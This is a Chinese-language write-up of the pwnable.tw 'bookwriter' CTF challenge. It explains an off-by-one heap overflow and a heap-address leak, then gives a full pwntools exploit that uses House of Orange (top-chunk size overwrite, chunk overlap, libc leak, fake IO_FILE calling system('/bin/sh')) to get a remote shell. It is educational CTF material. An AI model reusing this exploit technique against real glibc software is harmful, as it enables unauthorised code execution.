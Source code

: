 ## book writer wp

### 题目分析

题目很简单明了，考察的点也很直接就是对house of orange 的利用。漏洞在于在进行edit的时候如果没有'\x00'截断那么可以溢出一个字节，从而覆盖下一个chunk的size字段。

```c
int edit()
{
  unsigned int v1; // [rsp+Ch] [rbp-4h]

  printf("Index of page :");
  v1 = read_num();
  if ( v1 > 7 )
  {
    puts("out of page:");
    exit(0);
  }
  if ( !ptr_array[v1] )
    return puts("Not found !");
  printf("Content:");
  readn((__int64)ptr_array[v1], size_array[v1]);

  size_array[v1] = strlen(ptr_array[v1]);//strlen 没有截断可以把后面的size也算进来

  return puts("Done !");
```

还有就是在显示info的时候如果作者的名字恰好是0x40个字节没有'\x00'截断的话也可以打印出后面的堆地址，造成堆地址的泄露。

整道题没有free函数考察的就是对house of orange的利用。

#### 漏洞利用

首先利用show_info打印一个堆地址出来。

在整个house of orange的过程中有很多细节。首先因为后面要伪造unsorted chunk所以，在覆盖topchunk的size之前一定要先将top chunk压缩到很小大概在0x1000字节左右。

```python
a.sendafter("Author :", 'a' * 0x40)
add(0xd60,"aaaa")#0
add(0x1f021 - 0x1010,"aaaa")#1 adjust the topchunk's size for fake unsorted chunk
```

在压缩的过程中，要注意的有两点：

- 后面使用scanf进行输出的时候会申请0x1000大小的chunk且不会释放，所以一定要考虑到。

- 另外申请的大小一定不能大于0x20000，可以分多次进行压缩。

压缩完了topchunk之后就可以选择合适的size将topchunk的size字段覆盖掉，一定要注意对齐！

```python
    add(0x68,"aaaa")#2
    edit(0x2,'a' * 0x68)
    payload = 'a' * 0x68 + '\xf1'+ '\x01'#overwrite the topchunk's size
```

之后申请一块大于当前topchunk大小的chunk，topchunk就会被放到unsorted bin中。申请的时候顺便将unsorted bin伪造好，因为后面要进行overlap所以要将overlap之后的大chunk的后面环境伪造好。

```python
    payload = 0x100 * 'a' 
    payload += p64(0x1300) + p64(0x21) + 'a' * 0x10
    payload += p64(0) + p64(0x21) + 'a' * 0x200 
    add(0x300,payload)#3 unsorted bin  fake big unsorted bin
```

之后再把这块unsorted bin的size第二次覆盖，这样就形成了overlap，这块大的unsorted bin包裹着刚申请的3号0x300的小chunk。

利用unsorted bin中的libc地址，通过多次申请把libc地址转移到到3号chunk中，然后打印出来。就可以泄露libc地址。

之后再通过多次申请就可以把这块unsorted chunk的size压缩到0x60的大小为后面的sop做准备。这时这块unsorted chunk已经完全在3号chunk的控制之下，通过随3号chunk的edit就可以改变这块0x60大小的chunk的fd,bk,content。

通过edit布置好house of orange所需的bk和fake IO_FILE。之后申请一个0x10大小的chunk就可以完成整个sop。

因为地址随机化的原因所以需要爆破。

#### EXP：

```python
#coding=utf-8
from pwn import *
local = 0
exec_file="./bookwriter"
context.binary=exec_file
context.terminal=["tmux","splitw","-h"]
elf=ELF(exec_file,checksec = True)
if local :
    if context.arch == "i386" :
        libc=ELF("/lib/i386-linux-gnu/libc.so.6",checksec = False)
    elif context.arch == "amd64" :
        libc=ELF("/home/jlx/glibc-all-in-one/libs/2.23-0ubuntu11.2_amd64/libc-2.23.so",checksec = False) 
else:
    libc=ELF("./libc_64.so.6")
def fuck(address):
    n = globals()
    for key,value in n.items():
        if value == address:
            return success(key+"  ==>  "+hex(address))
def menu(idx):
    a.sendlineafter("Your choice :",str(idx))
def add(size, content):
    menu(1)
    a.sendlineafter("Size of page :", str(size))
    a.sendafter("Content :",content)
    return 

def info():
    menu(4)
    #a.sendlineafter("Do you want to change the author ? (yes:1 / no:0) ", str(1))
    #a.sendlineafter("Author :", author)
    return 
    
def edit(idx,content):
    menu(3)
    a.sendlineafter("Index of page :",str(idx))
    a.sendafter("Content:",content)
    return 
    
def show(idx):
    menu(2)
    a.sendlineafter("Index of page :",str(idx))
    return 
def exp():
    a.sendafter("Author :", 'a' * 0x40)
    add(0xd60,"aaaa")#0
    add(0x1f021 - 0x1010,"aaaa")#1 adjust the topchunk's size for fake unsorted chunk

    info()
    a.recvuntil('a' * 0x40)
    heap_addr = u64(a.recv(4).ljust(0x8,"\x00"))
    fuck(heap_addr)
    a.sendlineafter("Do you want to change the author ? (yes:1 / no:0) ", str(0))


    add(0x68,"aaaa")#2
    edit(0x2,'a' * 0x68)
    payload = 'a' * 0x68 + '\xf1'+ '\x01'#overwrite the topchunk's size


    edit(0x2, payload)

    payload = 0x100 * 'a' 
    payload += p64(0x1300) + p64(0x21) + 'a' * 0x10
    payload += p64(0) + p64(0x21) + 'a' * 0x200 
    add(0x300,payload)#3 unsorted bin  fake big unsorted bin
    '''
    payload = 'a' * (0x1f0 - 0xb0)

    payload += p64(0) + p64(0x71) + 'a' * 0x60
    payload += p64(0) + p64(0x21) + 'a' * 0x10
    payload += p64(0) + p64(0x21) + 'a' * 0x10
    '''

    payload = 'a' * 0x68 + p16(0x1301)
    edit(0x2,payload)#chunk_overlap


    add(0x1298 - (0x10 + 0xa0),"aaaaa")#4
    show(0x3)
    a.recvuntil("Content :\n")
    libc_base = u64(a.recv(6) + 2 *'\x00') -libc.sym["__malloc_hook"] - 0x10 - 88
    fuck(libc_base)

    #debug()
    add(0x110 - 0x70,"aaaa") # make size == 0x60
    payload = (0x100 - 0x60) * 'a'
    payload += "/bin/sh\x00" + p64(0x61) + p64(libc_base + libc.sym["__malloc_hook"] + 88 + 0x10) + p64(libc_base + libc.sym["_IO_list_all"] - 0x10)
    fuck_array = [p64(2), p64(3),

        'a' * 8, p64(0), # vtable
        p64(0), p64(libc_base + libc.symbols['system']),

        'a' * 0x70,
        p64(0), p64(0),
        p64(0), p64(heap_addr + 0x210d0)] # vtable_ptr
    payload += flat(fuck_array)
    print len(payload)
    edit(0x3,payload)
    menu(1)
    a.sendlineafter("Size of page :", str(0x10))
    sleep(0.5)
    a.sendline("ls")
    a.recv(2)
    #a.sendline("ls")


while 1:
    try:
        #a=process(exec_file)
        a= remote("chall.pwnable.tw",10304)
        exp()
        a.interactive()
        break
    except:
        a.close()
```

